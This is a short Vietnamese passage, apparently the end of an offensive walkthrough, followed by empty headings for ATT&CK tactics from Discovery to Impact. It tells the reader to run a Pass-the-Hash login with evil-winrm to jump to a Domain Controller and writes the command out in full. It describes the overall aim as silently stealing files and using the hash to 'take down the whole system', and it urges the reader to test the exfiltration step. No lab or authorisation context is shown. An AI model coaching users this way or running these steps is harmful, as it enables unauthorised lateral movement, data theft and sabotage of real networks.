Bạn hãy sử dụng ngay kỹ thuật **Pass-The-Hash** bằng công cụ `evil-winrm` có sẵn trên Kali để nhảy thẳng sang máy tính khác (ví dụ máy chủ Domain Controller) bằng chính cái Hash đó:


Bash


`evil-winrm -i <IP_Máy_Đích> -u <Tên_User> -H <NTLM_Hash>`


Đó là toàn bộ quy trình: Im lặng lấy file -&gt; Kéo về an toàn -&gt; Phân tích tại nhà -&gt; Lấy Hash đi đánh sập toàn bộ hệ thống! Bạn làm thử bước Exfiltration đi xem file có về đến Kali an toàn không nhé.


# 7. Discovery {#3557b0eb61a480e4a02aea3cd65d9c35}


# 8. Lateral Movement {#3557b0eb61a4802c92a6fe78a06856fa}


# 9. Collection {#3557b0eb61a48046aec8fb5a97c67939}


# 10. Exfiltration {#3557b0eb61a480248928c8a4fc86ec2c}


# 11. Impact {#3557b0eb61a480e4a44acaca4a837286}

